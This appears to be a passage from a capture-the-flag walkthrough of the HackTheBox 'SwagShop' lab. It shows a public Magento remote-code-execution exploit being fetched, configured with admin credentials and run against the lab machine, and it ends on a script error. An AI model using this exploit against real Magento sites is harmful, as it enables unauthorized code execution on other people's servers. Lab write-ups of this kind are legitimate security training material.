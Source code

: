 System -> Permissions -> Users shows us a list of all Magento users. Here we find our own account and another account named `haris`.

We can now use [37811 - Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/37811) we found earlier, but dismissed because we didn't have user credentials.

```bash
luc@kali:~/HTB/SwagShop$ searchsploit -m php/webapps/37811.py
luc@kali:~/HTB/SwagShop$ nano 37811.py
...
# Config.
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
...
luc@kali:~/HTB/SwagShop$ python 37811.py
Usage: python %s <target> <argument>
Example: python %s http://localhost "uname -a"
luc@kali:~/HTB/SwagShop$ python 37811.py 'http://10.10.10.140/index.php/admin' "whoami"
Traceback (most recent call last):
  File "37811.py", line 69, in <module>
    tunnel = tunnel.group(1)
AttributeError: 'NoneType' object has no attribute 'group'
```

We can now run our exploit, but we get an error on line 69.

```bash
luc@kali:~/HTB/SwagShop$ nano 37811.py
...
67 request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
68 tunnel = re.search("src=\"(.*)\?ga=", request.read())
69 tunnel = tunnel.group(1)
```
